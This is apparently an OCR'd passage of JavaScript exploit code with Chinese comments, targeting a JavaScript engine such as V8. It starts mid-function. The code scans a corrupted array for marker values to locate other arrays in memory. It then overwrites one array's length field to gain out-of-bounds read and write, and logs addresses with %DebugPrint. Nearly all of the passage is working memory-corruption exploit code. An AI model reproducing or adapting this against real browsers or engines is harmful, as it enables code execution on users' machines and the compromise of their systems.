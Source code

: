 ```js
    var startIndex = getOffset(startAddr);
    var end = getOffset(limit);
    for (let idx = startIndex; idx < end; idx += 1) {
      if (corruptedArr[idx] == 0x40504000 / 2 && corruptedArr[idx + 2] == 0x40508000 / 2) {
        return idx - 1;
      }
    }
}

//-------------------------------------------------------------------------------------------------------
//搜索oobDblArr数据位置
//%DebugPrint(oobDblArr);

var dblIndex = searchDblArrIndex(arrAddr, corruptedArr, arrAddr + 0x1000);
if (dblIndex == null) {
    console.log("cannot find dblIndex");
    exit();
}
//oobDblArr的备份数据
console.log("oobDblAddr0: " + indexToAddr(dblIndex).toString(16));
//corruptedArr[dblIndex] = 1;
var dblAddr = indexToAddr(dblIndex + 4);
//oobDblArr的实际数据
dblIndex = searchDblArrIndex(dblAddr, corruptedArr, 0x40504000/2, 0x40508000/2, dblAddr + 0x1000);
console.log("oobDblAddr1 elements: " + indexToAddr(dblIndex-2).toString(16));

dblAddr = indexToAddr(dblIndex + 4);
console.log("--------------------------------------------");

var oobDblIndex = dblIndex;
corruptedArr[dblIndex + 1] = 0x3FF80000 / 2;
%DebugPrint(oobDblArr);
corruptedArr[dblIndex - 5] = 0x100;
console.log("oobDblArr new length: " + oobDblArr.length);

console.log("--------------------------------------------");
//搜索oobDblArr2数据位置
%DebugPrint(oobDblArr2);

//oobDblArr2的备份数据
dblIndex = searchDblArrIndex(dblAddr, corruptedArr, dblAddr + 0x100);
dblAddr = indexToAddr(dblIndex + 4);
//oobDblArr2的实际数据
dblIndex = searchDblArrIndex(dblAddr, corruptedArr, dblAddr + 0x100);
console.log("oobDblAddr2 elements: " + indexToAddr(dblIndex-2).toString(16));
var oobDbl2Index = dblIndex;
//let input2 = readline();

console.log("--------------------------------------------");


function searchObjArrIndex(startAddr, corruptedArr, limit) {
    var startIndex = getOffset(startAddr);
    var end = getOffset(limit);
    for (let idx = startIndex; idx < end && idx < 67638; idx += 1) {
      if (corruptedArr[idx] == 0x00414141 && corruptedArr[idx + 1] == 0x00424242) {
        return idx;
      }
    }
}

//搜索oobObjArr数据位置
```